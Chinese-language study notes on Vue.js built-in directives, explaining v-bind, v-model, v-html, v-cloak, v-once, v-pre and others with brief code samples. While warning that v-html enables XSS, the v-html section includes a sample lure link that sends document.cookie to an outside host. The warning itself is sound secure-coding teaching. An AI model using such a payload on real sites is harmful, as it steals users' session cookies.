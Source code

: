 ## 21.内置指令

`v-bind`：单向绑定解析表达式，可简写为 `:xxx`
`v-model`：双向数据绑定
`v-for`：遍历数组/对象/字符串
`v-on`：绑定事件监听，可简写为`@`
`v-if`：条件渲染（动态控制节点是否存在）
`v-else`：条件渲染（动态控制节点是否存在）
`v-show`：条件渲染（动态控制节点是否展示）
`v-text`：

1. 作用：向其所在的节点中渲染文本内容。
2. 与插值语法的区别：`v-text` 会替换点节点中的内容，`{{xxx}}`则不会

`v-html`：

1. 作用：向指定节点中渲染包含 html 结构的内容。
2. 与插值语法的区别：
   (1). v-html 会替换掉节点中所有的内容，{{xxx}}则不会。
   (2). v-html 可以识别 html 结构。
3. 严重注意：v-html 有安全问题！！！
   (1). 在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。
   (2). 一定要在可信的内容上使用 v-html，永远不要用在用户提交的内容上！

   ```js
   <h2 v-html="str2"></h2>;
   
   str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>这里有你要的资源</a>';
   ```

`v-cloak`(没有值)：

1. 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
2. 使用 css 配合 v-cloak 可以解决网速慢时页面展示出{{xxx}}的问题。

   ```js
   [v-cloak] {
     display: none;
   }
   
   <div id="root" v-cloak>
     {{name}}
   </div>
   ```

`v-once`：

1. v-once 所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起 v-once 所造结构的更新，可以用于优化性能。
   ```js
   <h2 v-once>初始化的n值是：{{n}}</h2>
   <h2>当前的n值是：{{n}}</h2>
   ```

`v-pre`：

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
   ```html
   <h2 v-pre>没有使用指令语法</h2>
   <h2>当前的n值：{{n}}</h2>
   ```
